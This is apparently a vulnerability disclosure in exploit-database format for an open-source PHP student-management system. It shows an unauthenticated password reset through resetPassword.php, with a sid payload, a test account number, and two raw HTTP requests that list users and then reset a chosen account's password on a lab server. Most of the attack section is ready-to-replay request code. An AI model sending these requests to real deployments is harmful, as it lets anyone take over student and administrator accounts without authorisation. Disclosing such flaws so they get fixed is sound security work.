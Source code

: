 # student-management-system resetPassword.php user password reset

   
#### Exploit Title: student-management-system resetPassword.php user password reset
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://github.com/ningzichun/student-management-system
#### Software Link: https://github.com/ningzichun/student-management-system
#### Version: student-management-system 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The step of modifying the password was not verified, resulting in the ability to directly enter the website where the final password was modified, directly redirect to the page, and then enter a new password to reset the password, resulting in a everybody password reset student-management-system does not filter the content correctly at the "resetPassword.php" sid module, resulting in anyone password reset.

#### Payload used:
test account:201600012489
`/resetPassword.php?sid=xxxx`

#### Proof of Concept


1. Open login.php source code.

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/6013b5bb-e0ed-4124-8d72-34522bfcd10c)
2. request a getUser.php response.
```
GET /student/admin/fun/getUser.php HTTP/1.1
Host: 172.24.6.107:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Origin: http://172.24.6.107:8081
Connection: close
Referer: http://172.24.6.107:8081/student/?retry=1
Cookie: PHPSESSID=
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache


```
![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/be8169a9-efe5-40b2-a564-b65eb70a74fa)


3. request a resetPassword.php response.

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/87ea04ff-66f3-4b95-9ad9-9077942f913d)

```
GET /student/admin/fun/resetPassword.php?sid=201600012489 HTTP/1.1
Host: 172.24.6.107:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Origin: http://172.24.6.107:8081
Connection: close
Referer: http://172.24.6.107:8081/student/?retry=1
Cookie: PHPSESSID=
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

4. user login

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/d8aa4339-95c7-488a-96ea-b89c31f0eb54)
![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/aefb7b99-80b4-45b5-90b9-b317262aba95)



